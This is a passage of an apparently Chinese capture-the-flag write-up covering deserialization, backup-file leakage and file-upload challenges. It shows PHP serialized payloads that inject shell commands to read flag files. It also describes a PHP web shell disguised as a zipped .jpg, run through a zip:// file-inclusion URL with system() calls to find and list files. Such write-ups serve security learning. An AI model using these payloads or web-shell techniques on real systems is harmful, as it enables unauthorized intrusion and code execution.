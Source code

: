 ";s:4:"pass";s:13:"find / *flag*";}


";s:4:"pass";s:33:"cat /var/www/html/flag.php|base64";}
55
zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz";s:4:"pass";s:33:"cat /var/www/html/flag.php|base64";}
```

![](images/mdmd2021-09-13-15-09-07.png)

![](images/mdmd2021-09-13-15-09-19.png)

### [九道关]信息泄露

![](images/mdmd2021-09-13-15-04-42.png)

扫描得到备份文件:`index.php.bak`

![](images/mdmd2021-09-13-15-03-42.png)

flag{5D41402ABC4B2A76B9719D911017C592}

### [九道关]文件上传

![](images/mdmd2021-09-13-16-36-23.png)

看到网页源代码有文件包含

![](images/mdmd2021-09-13-15-07-06.png)

直接进行扫描发现`upload.php`的文件接口

![](images/mdmd2021-09-13-16-38-03.png)

![](images/mdmd2021-09-13-16-41-17.png)

模糊测试发现zip伪协议是允许的

上传更名为`js-php-zip.jpg`的压缩了`js-php.php`的`js-php-zip.zip`的文件。

![](images/mdmd2021-09-13-16-54-46.png)

访问链接：

`http://218.94.126.123:35478/?file=zip://upload/js-php-zip.jpg%23js-php.php`

![](images/mdmd2021-09-13-16-55-07.png)

![](images/mdmd2021-09-13-17-09-20.png)

![](images/mdmd2021-09-13-17-11-11.png)

![](images/mdmd2021-09-13-17-11-44.png)

说实话，不知道为什么zip解压的这个shell没办法上到蚁剑上面，连接不成功

访问`view-source:http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=system(%27find%20/%20-name%20*flag*%27);`

得到结果:`/var/www/html/flag_sdhaofjaASFAF`

访问`view-source:http://218.94.126.123:35499//?file=zip://upload/muma-zip.jpg%23muma.php&cmd=print_r(%2711111%27);system(%27ls%20/var/www/html/%27);print_r(%2722222%27);`

```